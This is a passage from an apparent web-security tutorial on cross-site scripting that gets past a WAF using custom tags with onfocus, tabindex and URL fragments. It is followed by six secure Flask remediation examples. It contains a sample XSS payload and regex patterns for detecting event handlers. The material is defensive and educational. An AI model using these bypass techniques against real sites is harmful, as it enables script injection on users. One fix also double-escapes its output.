   ├── JavaScript focus()
   ├── autofocus attribute
   └── Tab navigation

3. Works on any element:
   └── Just need tabindex attribute ✓

4. Difficult to prevent:
   └── Focus is legitimate browser behavior
       └── Hard to filter without breaking functionality ⚠️

Other focus-related events:
├── onfocus - Element receives focus
├── onblur - Element loses focus
├── onfocusin - Focus (bubbles)
├── onfocusout - Blur (bubbles)
└── All can be exploited! 💥
```

---

### **URL Fragment Attacks**

```HTTP
Why hash fragments are useful for XSS:

1. Client-side only:
   └── Not sent to server in HTTP request
       └── Server-side WAF cannot filter
           └── Bypasses many protections! ✓

2. Automatic browser behavior:
   └── Browser scrolls to target
       └── Focuses if focusable
           └── Triggers events! 💥

3. Can contain any content:
   └── Not validated by servers
       └── Perfect for attack payloads ✓

4. Combined with other techniques:
   └── Hash + tabindex + onfocus
       └── Creates automatic XSS! 🎯

Other hash-based attacks:
├── Hash-based DOM XSS
├── Fragment identifier injection
├── CSS selector attacks
└── Many variations! 💡
```

---
---

## 🛡️ **How to Fix (Secure Code)**

---

### **Fix 1: Strict Whitelist with HTML Sanitization**

```python
# ✅ SECURE - Strict whitelist approach

from flask import Flask, request
import bleach

app = Flask(__name__)

# Define VERY strict whitelist
ALLOWED_TAGS = []  # Allow NO HTML tags at all
ALLOWED_ATTRIBUTES = {}

@app.route('/search')
def search():
    query = request.args.get('q', '')
    
    # Strip ALL HTML tags
    clean_query = bleach.clean(
        query,
        tags=ALLOWED_TAGS,  # Empty list = no tags allowed
        attributes=ALLOWED_ATTRIBUTES,
        strip=True
    )
    
    # Safe to use in HTML
    return f"<h1>Results for '{clean_query}'</h1>"

# Benefits:
# ✅ Removes ALL HTML tags (including custom)
# ✅ Default deny approach
# ✅ Cannot bypass with custom tags
# ✅ Completely safe! ✓

# Example:
# Input: <xss id=x onfocus=alert(1) tabindex=1>
# Output: (empty string or text only)
# Result: All tags stripped! ✓
```

---

### **Fix 2: HTML Entity Encoding**

```python
# ✅ SECURE - Encode all HTML special characters

from flask import Flask, request
import html

app = Flask(__name__)

@app.route('/search')
def search():
    query = request.args.get('q', '')
    
    # HTML encode EVERYTHING
    safe_query = html.escape(query, quote=True)
    
    return f"<h1>Results for '{safe_query}'</h1>"

# Benefits:
# ✅ Encodes < > " ' &
# ✅ Prevents tag creation
# ✅ Prevents attribute injection
# ✅ Works for ANY content!

# Example:
# Input: <xss id=x onfocus=alert(1)>
# Output: &lt;xss id=x onfocus=alert(1)&gt;
# Display: <xss id=x onfocus=alert(1)> (as text)
# Result: Shown as text, not parsed as HTML! ✓

# Why this works:
# └── < encoded as &lt;
#     └── Browser displays < character
#         └── Does NOT parse as tag opening
#             └── Cannot create elements! ✓
```

---

### **Fix 3: Content Security Policy (CSP)**

```html
<!-- ✅ SECURE - Strict CSP -->

<!-- Server sends CSP header: -->
<!-- Content-Security-Policy: default-src 'self'; script-src 'self' -->

<!DOCTYPE html>
<html>
<head>
    <meta http-equiv="Content-Security-Policy" 
          content="default-src 'self'; script-src 'self'">
    <title>Search Results</title>
</head>
<body>
    <h1>Results for '...'</h1>
</body>
</html>

<!-- How CSP helps: -->
<!--
CSP blocks:
├── Inline event handlers (onfocus, onclick, etc.)
├── Inline <script> tags
├── javascript: URLs
└── eval() and similar functions

Even if XSS injection succeeds:
└── <xss id=x onfocus=alert(1)> injected
    └── Browser parses HTML
        └── CSP blocks inline onfocus handler
            └── alert(1) never executes! ✓

Important CSP directives:
├── default-src 'self' - Only load from same origin
├── script-src 'self' - Scripts only from same origin
├── object-src 'none' - No plugins
└── base-uri 'self' - Restrict <base> tag

CRITICAL: Never use 'unsafe-inline'!
└── 'unsafe-inline' allows inline handlers
    └── Defeats CSP protection
        └── Always use strict CSP! ✓
-->
```

---

### **Fix 4: Template Auto-Escaping**

```python
# ✅ SECURE - Template with auto-escaping

from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/search')
def search():
    query = request.args.get('q', '')
    
    # Use template with auto-escaping enabled
    template = """
    <!DOCTYPE html>
    <html>
    <head>
        <meta http-equiv="Content-Security-Policy" 
              content="default-src 'self'; script-src 'self'">
    </head>
    <body>
        <h1>Results for '{{ query }}'</h1>
    </body>
    </html>
    """
    
    # Flask/Jinja2 auto-escapes by default
    return render_template_string(template, query=query)

# Benefits:
# ✅ Template auto-escapes variables
# ✅ Prevents tag injection
# ✅ CSP for defense in depth
# ✅ Secure by default! ✓

# How it works:
# └── {{ query }} is auto-escaped
#     └── < becomes &lt;
#         └── > becomes &gt;
#             └── Cannot create tags! ✓
```

---

### **Fix 5: Input Validation + Output Encoding**

```python
# ✅ SECURE - Defense in depth approach

from flask import Flask, request, render_template_string
import html
import re

app = Flask(__name__)

def validate_search_query(query):
    """Validate search input"""
    
    # Check length
    if len(query) > 100:
        return None, "Query too long"
    
    # Check for suspicious patterns
    suspicious_patterns = [
        r'<[^>]*>',  # HTML tags
        r'javascript:',  # JavaScript protocol
        r'on\w+\s*=',  # Event handlers
    ]
    
    for pattern in suspicious_patterns:
        if re.search(pattern, query, re.IGNORECASE):
            return None, "Invalid characters in query"
    
    return query, None

@app.route('/search')
def search():
    query = request.args.get('q', '')
    
    # Validate input
    validated_query, error = validate_search_query(query)
    
    if error:
        return error, 400
    
    # Encode output
    safe_query = html.escape(validated_query)
    
    # Use template with CSP
    template = """
    <!DOCTYPE html>
    <html>
    <head>
        <meta http-equiv="Content-Security-Policy" 
              content="default-src 'self'; script-src 'self'">
    </head>
    <body>
        <h1>Results for '{{ query }}'</h1>
    </body>
    </html>
    """
    
    return render_template_string(template, query=safe_query)

# Benefits:
# ✅ Input validation (first line of defense)
# ✅ Output encoding (second line of defense)
# ✅ CSP (third line of defense)
# ✅ Multiple layers of protection!

# Defense in depth:
# └── If one layer fails, others protect
#     └── Much more secure approach! ✓
```

---

### **Fix 6: Remove WAF, Secure Application**

```python
# ✅ SECURE - No WAF needed, application is secure

from flask import Flask, request
import html

app = Flask(__name__)

@app.route('/search')
def search():
    query = request.args.get('q', '')
    
    # Simple encoding - that's all you need!
    safe_query = html.escape(query)
    
    return f"""
    <!DOCTYPE html>
    <html>
    <head>
        <meta http-equiv="Content-Security-Policy" 
              content="default-src 'self'; script-src 'self'">
        <title>Search Results</title>
    </head>
    <body>
        <h1>Results for '{safe_query}'</h1>
    </body>
    </html>
    """

# Why WAFs fail:
# └── Band-aid solution
#     └── Try to block attacks at network layer
#         └── But attacks evolve faster than WAF rules
#             └── Custom tags, encoding, obfuscation all bypass! ⚠️

# Better approach:
# └── Fix the root cause in application
#     └── Proper output encoding
#         └── CSP for defense in depth
#             └── No WAF needed! ✓

# Benefits of fixing application vs using WAF:
# ✅ No bypass possible (encoding is mathematical)
# ✅ Simpler architecture
# ✅ Better performance (no WAF overhead)
# ✅ More maintainable
# ✅ Actually secure! ✓
```

---
